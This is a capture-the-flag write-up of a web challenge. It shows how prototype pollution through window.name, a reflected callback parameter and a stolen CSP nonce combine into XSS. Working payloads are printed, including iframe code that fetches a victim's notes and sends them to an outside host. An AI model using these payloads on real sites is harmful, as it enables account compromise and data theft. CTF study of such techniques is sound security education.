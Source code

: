 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 Did not try much TBH

#### Solutions:

With prototype pollution(unintended solution) on window.name (because it is persisted in browser even if origin changes),
we override the user.theme.cb propoerty, which is used in 
`<script src='/theme?cb=${user.theme.cb}'>`

/theme?cb="payload" reflects payload in the response

By making window.name to on our attacker site

```
{
"__proto__": {"theme":{"cb":"document.body.innerHTML=window.name.valueOf"}}
}
=====
<script>
    x = `
        <h1> Hello </h1>
        
    `
    window.name = `{"x": ${JSON.stringify(x)}, "verbose": true, "showAll": true, "keepDebug": true, "__proto__": {"theme":{"cb":"document.body.innerHTML=window.name.valueOf"}}}`;
    parent.location = 'https://littlethings.web.ctfcompetition.com/settings?__debug__';
</script>
```

and making him redirect to ctf chall,
we can write the whole window.name to DOM of victim page of chall

So we have arbitrary HTMLi on littlethings domain

but its not full XSS yet cause of CSP nonce.

We can steal and apply this nonce on our own script tag by using multiple callbacks  and then writing arbitrary code to tag and it will execute it.

```
<iframe name=x title='fetch(&#x22;/note&#x22;).then(x=>x.text()).then(x=>top.locations=&#x22;//ctf.s1r1us.ninja?html=&#x22;+btoa(encodeURIComponent(x)))' id=y srcdoc='<script><\/script>'></iframe> 
	
<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.nonce=top.document.body.lastElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.nonce=top.x.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.innerHTML=top.y.title.valueOf ><\/script>'></iframe>
```

Multiple ways to exfil data though, check out:

In Fixed version,
to get arbitrary HTMLi first, we dont have prototype pollution to the rescue,The challenge name was the hint towards it.

We need to use "document.all" which is undefined but still exists!!
then again after Arbitrary xss, we use CSP bypasses to the rescue.

https://github.com/zoeyg/public-write-ups/blob/master/googlectf-2020/all-the-little-things.md
https://blog.s1r1us.ninja/CTF/IuseBing






